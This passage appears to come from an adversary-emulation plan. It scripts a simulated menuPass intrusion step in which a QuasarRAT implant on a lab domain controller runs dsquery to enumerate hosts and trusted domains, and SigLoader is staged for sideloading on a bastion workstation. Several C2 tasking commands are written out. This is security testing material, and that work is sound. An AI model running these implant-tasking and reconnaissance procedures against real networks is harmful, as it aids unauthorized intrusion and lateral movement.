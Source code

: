 <details><summary>:link: Click to expand source code links table</summary></details>

<br>

## Step 6 - Preparation for Lateral Movement onto Subsidiary B Network

### :microphone: Voice Track

menuPass performs additional Active Directory enumeration, through which the
following are identified:

* A trusted domain DIGIREVENGE
* A bastion workstation `kimeramon (10.20.20.11)` in DIGIREVENGE allowing authentication for Subsidiary A users
* Hosts and users within DIGIREVENGE

Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, menuPass downloads SigLoader and its necessary
components to the Subsidiary A Domain Controller, then moves them to the
bastion workstation `kimeramon (10.20.20.11)`.

Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, menuPass then remotely creates a service on the
bastion workstation `kimeramon (10.20.20.11)` to execute a legitimate binary
that will sideload SigLoader.

### ☣️ Procedures

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, execute `dsquery` to enumerate further information on
the active hosts

  ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 1, "proc_path":"dsquery.exe", "proc_args": "* -filter \"(objectCategory=computer)\" -attr *"}'
  ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, execute `dsquery` to enumerate further information on
trusted domains

  ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 1, "proc_path":"dsquery.exe", "proc_args": "* -filter \"(objectCategory=trusteddomain)\" -attr *"}'
  ```

  * Ensure `DIGIREVENGE` is listed as a trusted domain

  ```
  grep 'flatname: digirevenge' logs.txt -ia -C 10
  ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, execute `dsquery` to enumerate further information on
the active hosts within DIGIREVENGE

